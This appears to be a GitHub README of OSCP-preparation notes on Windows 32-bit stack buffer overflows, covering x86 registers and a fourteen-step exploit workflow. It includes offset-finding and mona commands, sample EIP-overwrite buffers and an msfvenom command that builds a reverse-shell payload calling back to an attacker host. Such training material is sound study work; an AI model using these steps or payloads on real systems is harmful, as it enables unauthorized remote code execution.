 # Win32-Buffer-Overflow
 Notes and scripts for a basic windows 32-bit buffer overflow exploit development. Aimed for OSCP preparation.

## Contents

[Introduction](#Introduction)

[TL;DR](#TLDR)

[Global Steps](#Global-Steps)

[Methodology](#Methodology)

[Template Scripts](/Scripts)

[Walkthroughs](/Walkthroughs)

# Introduction

## First some basics!

**Some basic understanding of buffer overflow can be found [here](https://www.youtube.com/watch?v=1S0aBV-Waeo).**

The x86 architecture does contain 8 general registers that are used to store data and then can address that point to other positions in the memory.

* EBP (base pointer)
* ESP (stack pointer)
* EAX (accumulator)
* EBX (base)
* ECX (counter)
* EDX (data)
* EDI (destination index)
* ESI (source index)

**EIP**: Extended Instruction Pointer. This is a read-only register and does contain the address of the next instruction to be executed (tells the CPU what to do next).

**ESP**: Extended Stack Pointer. Points to the top of the stack (at any time) at the lower memory location.

**EBP**: Extended Base Stack Pointer. Points to higher address (last item) at the bottom of the stack.

**JMP**: In the x86 assembly language, the JMP instruction performs an unconditional jump. Such an instruction transfers the flow of execution by changing the instruction pointer register. 

This should give a good idea about "what" and "why" of **JMP-ESP** [here](https://security.stackexchange.com/questions/157478/why-jmp-esp-instead-of-directly-jumping-into-the-stack). The OPCODE for JMP ESP is \xff\xe4 (in assembly). 
* * *


# TLDR

**Steps:**
- [ ] Find offset
- [ ] Ensure control over EIP at found offset (4 B’s)
- [ ] Find bad characters
- [ ] Find return address (JMP ESP)
- [ ] Ensure EIP overwrite (Breakpoint - F2 - at return address )
- [ ] Ensure buffer length for shellcode is good enough
- [ ] Get a shell

# Global-Steps

*Note: These steps are a reminder of the global Windows buffer overflow and are not intended to be a manual :)*

**Step 1**: fuzz till crash and note EIP is overwritten by A's (x41).

**Step 2**: use pattern_create.rb to generate unique string and send it to target
`/usr/share/metasploit-framework/tools/exploit/pattern_create.rb -l 2700`

**Step 3**: identify 4 bytes that overwrite EIP (this is in HEX)

**Step 4**: use pattern_offset.rb to calculate the offset of these specific 4 bytes
`/usr/share/metasploit-framework/tools/exploit/pattern_offset.rb -l 2700 -q 39694438`

**Step 5**: send new buffer string to check if we can control the EIP register, since it should be written over with B's. Add to exploit and notice the result of the ESP and EIP registers:
`buffer = "A" * 2606 + "B" * 4 + "C" * 90`

**Step 6**: check if more space within buffer is available (increase buffer length from 2700 to 3500 bytes and see if this results in a larger buffer space for our shellcode). Fire up “morespace.py” -> right click ESP -> follow in dump. Add to exploit and check for C's:
`buffer = "A" * 2606 + "B" * 4 + "C" * (3500 – 2606 - 4)`

**Step 7**: check for bad chars (0x00 to 0xff). Paste all these chars within buffer and check where ESP register dump is truncated (p. 161). Right click ESP and follow in dump to see.
`Notice skipped chars!`

**Step 8**: if we can't jump directly to our buffer, we need to find a reliable address in memory that contains an instruction such as JMP ESP. We could jump to it, and in turn end up at the address pointed to, by the ESP register, at the time of the jump. This would be a reliable indirect way to reacht the memory indicated by ESP register. mona.py can help identify modules in memory that we can search for return address (no DEP and ASLR should be present and high memory range that doesn't contain bad chars)
`!mona modules`
*Check if not being affected by any memory protection schemes (Rebase, SafeSEH, ASLR, NXCompat) and note the specific DLL (right column).*

**Step 9**: JMP ESP equivalent = opcode.
```
/usr/share/metasploit-framework/tools/exploit/nasm_shell.rb
nasm > jmp esp
00000000  FFE4              jmp esp
```
*Note result as: "\xff\xe4"*

**Step 10**: use mona to find the JMP ESP memory address within the DLL found in step 8. Use one which does not contain any bad chars.
`!mona find -s "\xff\xe4" -m <dllname>.dll`

**Step 11**: pause Immunity Debugger and follow the address (black arrow pointing to right: "Expression to follow"). Note if the JMP ESP is found (pane left above).

**Step 12**: set a breakpoint to check if we can reach the JMP ESP.
*left upper pane -> right click -> go to expression
left upper pane -> right click -> breakpoint -> toggle (F2)
play and do the following:
Add to PoC (the memory address is the one we found in step 10, noted Little Endian):*
`buffer = "A" * 2606 + "\x8f\x35\x4a\x5f" + "C" * 390`
*Run PoC and check if breakpoint is hit (message at the bottom of Immunity Debugger).*

**Step 13**: generate reverse shell
`msfvenom -p windows/shell_reverse_tcp LHOST=x.x.x.x LPORT=443 -f c –e x86/shikata_ga_nai -b "\x00\x0a\x0d"`

**Step 14**: add the reverse shell code to the exploit and change to:
`buffer="A"*2606 + "\x8f\x35\x4a\x5f" + "\x90" * 8 + shellcode`
*Increase NOP slide if needed*

* * *

# Methodology

[1. Connection](1_Connection.md)

[2. Fuzzing](2_Fuzzing.md)

[3. Getting Offset](3_Getting-Offset.md)

[4. Controlling EIP](4_Controlling-EIP.md)

[5. Badcharacters](5_Badchars.md)

[6. Finding JMP Pointer](6_Finding-JMP-Pointer.md)

[7. JMP ESP](7_JMP-ESP.md)

[8. Obtaining a Shell](8_Shell.md)

* * *

